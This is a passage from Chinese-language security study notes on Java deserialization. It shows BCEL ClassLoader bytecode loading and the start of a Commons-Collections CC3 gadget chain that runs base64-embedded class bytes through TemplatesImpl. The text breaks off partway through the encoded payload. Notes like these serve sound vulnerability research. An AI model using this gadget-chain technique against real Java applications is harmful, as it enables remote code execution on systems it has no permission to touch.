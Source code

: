 ### BCEL ClassLoader加载字节码

* BCEL (Byte Code Engineering Library) 是 Apache Software Foundation 提供的一个用于分析、创建和操作 Java 字节码的库。它提供了一套 API,使开发者能够以编程的方式读取、修改和生成 Java 字节码文件。
* 我们可以通过BCEL提供的两个类 Repository 和 Utility 来利用： Repository 用于将一个Java Class 先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码； Utility 用于将 原生的字节码转换成BCEL格式的字节码
* BCEL ClassLoader用于加载BCEL格式的字节码，并可以执行其中的代码
* **BCEL ClassLoader在Java 8u251的更新中被移除**

```java
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class HelloBCEL {
    public static void main(String []args) throws Exception {
        JavaClass cls = Repository.lookupClass(Hello.class);
        String code = Utility.encode(cls.getBytes(), true);
        System.out.println(code);
        Hello hello = (Hello) new ClassLoader().loadClass(code).newInstance();
    }
}

```

## 为什么需要CommonCollections3

### 结合TemplatesImpl改造CC1

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.Transformer;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
public class TestCC3 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        // source: bytecodes/HelloTemplateImpl.java
        byte[] code =
                Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA"+
                        "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP"+
                        "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0"+
                        "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm"+
                        "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y"+
                        "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw"+
```